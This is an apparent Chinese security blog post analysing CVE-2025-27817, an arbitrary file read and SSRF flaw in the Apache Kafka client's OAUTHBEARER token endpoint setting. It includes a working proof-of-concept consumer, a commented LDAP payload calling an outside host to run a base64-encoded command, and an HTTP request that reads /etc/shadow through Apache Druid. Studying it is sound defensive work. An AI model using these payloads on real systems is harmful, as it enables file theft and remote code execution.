# Apache Kafka Client 任意文件读取与SSRF 漏洞（CVE-2025-27817）分析-先知社区

> **来源**: https://xz.aliyun.com/news/18251  
> **文章ID**: 18251

---

# 漏洞描述

攻击者在可以控制Apache Kafka Connect 客户端的情况下，可通过SASL JAAS 配置和基于 SASL 的安全协议在其上创建或修改连接器相关配置，利用部分参数例如 sasl.oauthbearer.token.endpoint.url 和 sasl.oauthbearer.jwks.endpoint.url，造成任意文件读取与SSRF漏洞。

漏洞影响范围

2.3.0 <= Apache Kafka Client <= 3.9.0

# 调试环境

从描述来看感觉像是老洞的绕过

https://github.com/vulhub/vulhub/blob/master/kafka/CVE-2023-25194/README.zh-cn.md

利用vulhub的docker可以快速部署，它的kafka-clients版本是3.3.1

但其实要跟踪逻辑调试漏洞，本地起一个maven项目写一个kafka consumer就可以了

pom依赖

```
    <dependencies>
        <dependency>
            <groupId>org.apache.kafka</groupId>
            <artifactId>kafka-clients</artifactId>
            <version>3.9.0</version>
        </dependency>
        <dependency>
            <groupId>com.fasterxml.jackson.core</groupId>
            <artifactId>jackson-databind</artifactId>
            <version>2.17.1</version>
        </dependency>
```

最终代码如下

```
package org.example;

import org.apache.kafka.clients.consumer.ConsumerConfig;
import org.apache.kafka.clients.consumer.ConsumerRecords;
import org.apache.kafka.clients.consumer.KafkaConsumer;
import org.apache.kafka.common.config.SaslConfigs;
import org.apache.kafka.common.serialization.IntegerDeserializer;
import org.apache.kafka.common.serialization.StringDeserializer;

import java.time.Duration;
import java.util.Collections;
import java.util.Properties;

public class MykafkaConsumer extends Thread{

    KafkaConsumer<Integer, String> consumer;
    String topic;

    public MykafkaConsumer(String topic) {
        // 构建连接配置，这里是ConsumerConfig
        Properties properties = new Properties();
        properties.put(ConsumerConfig.BOOTSTRAP_SERVERS_CONFIG, "192.168.202.131:9092");
        properties.put(ConsumerConfig.CLIENT_ID_CONFIG, "my-consumer");
        // 反序列化，这里是Deserializer
        properties.put(ConsumerConfig.KEY_DESERIALIZER_CLASS_CONFIG,
                IntegerDeserializer.class.getName());
        properties.put(ConsumerConfig.VALUE_DESERIALIZER_CLASS_CONFIG,
                StringDeserializer.class.getName());

        // 以下是Producer没有的配置
        properties.put(ConsumerConfig.GROUP_ID_CONFIG, "my-gid"); // 要加入的group
        properties.put(ConsumerConfig.SESSION_TIMEOUT_MS_CONFIG, "30000"); // 超时，心跳
        properties.put(ConsumerConfig.AUTO_COMMIT_INTERVAL_MS_CONFIG, "1000"); // 自动提交（批量）
        properties.put(ConsumerConfig.AUTO_OFFSET_RESET_CONFIG, "earliest"); // 新group消费为位置

        // =========================================================
        // 添加 SASL/OAUTHBEARER 认证相关的配置
        // =========================================================
        properties.put("security.protocol", "SASL_SSL"); // 或者 SASL_PLAINTEXT，但推荐 SASL_SSL
        properties.put("sasl.mechanism", "OAUTHBEARER");
        // properties.put("sasl.mechanism", "PLAIN");
        properties.put("sasl.login.callback.handler.class", "org.apache.kafka.common.security.oauthbearer.secured.OAuthBearerLoginCallbackHandler");

        // OAuth Token 端点 URL
        // 请替换为你的实际身份提供商 (IdP) 的令牌端点 URL
        properties.put("sasl.oauthbearer.token.endpoint.url", "file:///d:/flag.txt"); //

        // JAAS 配置
        // 这个字符串指定了如何获取 OAuth 令牌。
        // 它通常包含客户端 ID、客户端 Secret、scope 等信息。
        // 请替换为你的实际客户端 ID、客户端 Secret 和任何其他所需参数。
        // 注意：这里的 client_id 和 client_secret 应该从你的身份提供商获取。
        // 注意：确保这里的 LoginModule 是正确的，例如用于 OAUTHBEARER 的 LoginModule
        String jaasConfigValue = "org.apache.kafka.common.security.oauthbearer.OAuthBearerLoginModule required " +
                "clientId="your-client-id" " +
                "clientSecret="your-client-secret" " +
                "scope="your-scope" " +
                "tokenEndpointUrl="file:///d:/flag.txt";";
        properties.put(SaslConfigs.SASL_JAAS_CONFIG, jaasConfigValue); //
//        properties.put(SaslConfigs.SASL_JAAS_CONFIG,
//                "com.sun.security.auth.module.LdapLoginModule required " +
//                        "userProvider="ldap://113.45.75.45:1389/Basic/Command/base64/aWQgPiAvdG1wL3N1Y2Nlc3M=" " + // LDAP 服务器 URL 和 base DN
//                        "authIdentity="test" " + // 用户名占位符
//                        "userFilter="uid=test" " + // 用户过滤模式
//                        "useSSL="false" " + // 是否使用SSL，通常推荐使用SSL/TLS
//                        "debug="true";"); // 开启debug可以帮助排查问题


        // =========================================================

        consumer = new KafkaConsumer<>(properties);
        this.topic = topic;
    }

    public void run() {
        // 死循环不断消费消息
        while (true) {
            // 绑定订阅主题
            // 注：Collections.singleton返回一个单元素&不可修改Set集合，
            // 同样的还有singletonList，singletonMap
            consumer.subscribe(Collections.singleton(this.topic));
            // 接收消息 POLL()！！！
            ConsumerRecords<Integer, String> consumerRecords = consumer.poll(Duration.ofSeconds(1));
            // 注：一行的lamada表达式可以不用{}
            consumerRecords.forEach(record -> System.out.println(record.key() + "->" +
                    record.value() + "->" + record.offset()));
        }
    }

    public static void main(String[] args) {
        // 拉取test主题的消息
        new MykafkaConsumer("test").start();
    }
}


```

# diff

现在进入实际的分析过程

从[github.com/apache/kafka/tags](https://github.com/apache/kafka/tags)下载3.9.0和3.9.1的代码做diff



根据漏洞描述只需要关注clients下面oauthbearer部分即可，在AccessTokenRetrieverFactory可以看到新版本对SASL\_OAUTHBEARER\_TOKEN\_ENDPOINT\_URL有个合法性校验。





总之可以确认`sasl.oauthbearer.token.endpoint.url`这个属性直接放payload就行

来自gemeni的介绍

> OAUTHBEARER 是 Kafka 2.0.0 版本引入的一种 SASL (Simple Authentication and Security Layer) 机制，用于实现基于 OAuth 2.0 协议的认证。它允许 Kafka 客户端（生产者、消费者、Connect、Streams 等）使用 OAuth 2.0 访问令牌（Access Token，通常是 JWT - JSON Web Token）向 Kafka Broker 进行身份验证。
>
> **核心思想：** 客户端不再直接向 Kafka Broker 提供用户名/密码，而是：
>
> 1. **从一个独立的 OAuth 2.0 授权服务器 (Authorization Server / Identity Provider - IdP) 获取一个访问令牌 (Access Token)。** 这个过程通常涉及客户端凭据授权 (Client Credentials Grant) 或其他 OAuth 2.0 授权流程。
> 2. **将这个访问令牌发送给 Kafka Broker。**
> 3. **Kafka Broker 验证这个令牌。** Broker 不会直接与 IdP 交互获取令牌，而是验证收到的令牌的有效性（例如，JWT 签名验证、过期时间、颁发者、受众等）。如果令牌有效，认证通过。

其他的文件改动有部分正是和jwt相关的

接下来要处理的就是怎么走通这个流程

# 调用链

根据老洞poc，自己写个consumer把这些属性加上尝试debug看能不能走到有改动的文件。

在diff发现的新版本加了判断的地方下断点



要读文件就要能进入return new FileTokenRetriever(cu.validateFile("sasl.oauthbearer.token.endpoint.url"));这一行



把这个file对象设置到accesstokenfile



进入登录流程



OAuthBearerLoginCallbackHandler



最终触发是在登录校验token的时候读取的文件内容不满足jwt格式被报错带出





报错中成功带出文件信息



上面的流程看着一气呵成，因为这是鼓捣出poc之后的正确路径。

讲一个坑点，因为我并不熟悉kafka,下断点其实跑不到，但是我注意到改动文件中有一个saslxxxxcallbackhandler，我猜测应该要被它处理到才能走到我想要的流程里去。于是问ai问出这么一个属性sasl.login.callback.handler.class可以设置。但debug之后发现实际并不是这个，有兴趣的可以自己调一下。

# poc验证

在druid上验一下

```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: 192.168.202.131:8888
Content-Length: 1586
Accept-Language: zh-CN,zh;q=0.9
Accept: application/json, text/plain, */*
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Origin: http://192.168.202.131:8888
Referer: http://192.168.202.131:8888/unified-console.html
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{
                "bootstrap.servers":"127.0.0.1:6666",
                "sasl.mechanism":"OAUTHBEARER",
                "security.protocol":"SASL_SSL",
"sasl.login.callback.handler.class":"org.apache.kafka.common.security.oauthbearer.secured.OAuthBearerLoginCallbackHandler",
"sasl.oauthbearer.token.endpoint.url":"file:///etc/shadow",
                "sasl.jaas.config":"org.apache.kafka.common.security.oauthbearer.OAuthBearerLoginModule required clientId="test" clientSecret="pass" scope="x" debug="true" tokenEndpointUrl="file:///etc/shadow";"
            },
            "topic":"test",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\s\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{

            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```


